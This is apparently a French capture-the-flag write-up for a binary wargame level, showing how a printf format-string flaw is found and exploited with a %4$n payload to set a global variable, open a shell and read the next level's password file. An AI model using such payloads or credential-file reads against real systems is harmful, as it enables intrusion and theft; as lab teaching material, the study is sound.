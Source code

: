 # Level3

---
###### Étape 1 : -- Décompiler le programme --

En décompilant le programme avec Dogbolt ou Ghidra, on voit dans le programme deux fonctions V et Main ainsi qu'une variable globale m.

On voit par la suite que dans la fonction V il y a la fonction __printf__ qui est appelé.

 - on utilisera cette fonction pour overflow le programme.

Plus loin dans le progamme m est check pour savoir si elle contient la valeur 64.

si c'est le cas alors le programme lance un terminal bash.

###### Étape 2: -- Récuperation d'information --

Depuis __GDB__, on cherche l'addresse de m qui ce trouve etre ==0x0804988c==.

En lancant le programe comme suit:
```bash
python -c 'print "AAAA" + " %p " * 7' | ./level3
```

on observe ce resultat: 
> AAAA 0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141  0x20702520  0x20702520 

on voit que la chaine "_AAAA_" -> hex: "_0x41414141_" ce situe a la 4ème position.
c'est donc a cette position que l'on vas ecrire payload pour remplir m.

###### Étape 3: -- Execution --

Avec la postion d'écriture du ___printf___ et l'addresse de ___m___, on crée un one-liner python pour executer un payload pour mettre la valeur 64 dans la variable ___m___.

Contruction du payload: 
> (python - c 'print "[m(address)]" + "B" * [64 - sizeof(m)] + "%4$n"'; cat -) | ./binary

Payload final :

```bash
(python -c 'print "\x8c\x98\x04\x08" + "B" * 60 + "%4$n"'; cat -) | ./level3
```

Dans le terminal on execute la commande suivante pour récupérer le password du level4:

```bash
cat /home/user/level4/.pass
```